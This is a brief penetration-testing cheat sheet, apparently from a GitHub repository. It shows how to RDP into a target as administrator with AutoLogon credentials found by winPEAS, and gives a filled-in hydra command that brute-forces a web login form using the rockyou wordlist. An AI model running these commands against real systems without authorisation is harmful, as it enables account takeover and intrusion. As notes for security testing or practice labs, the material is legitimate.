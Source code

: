 AutoLogon creds
-
During our privilege escalation proccess, if we got this creds using ```winPEAS.exe``` binary we could use them to RDP over the target machine.
![Screenshot from 2024-10-06 00-51-57](https://github.com/user-attachments/assets/9baed7c0-548c-4a51-9a5e-149b51864e14)

```
xfreerdp /u:administrator /p:<password> /v:<target ip>
```

Brute force login pages using hydra
-

```
sudo hydra <Username/List> <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"
```
After filling in the placeholders, here’s our actual command!

```
sudo hydra -s 80 -L ~/path/to/our/nameslist -P /usr/share/wordlists/rockyou.txt <our target> https-post-form "/login/index.php:username=^USER^&password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```





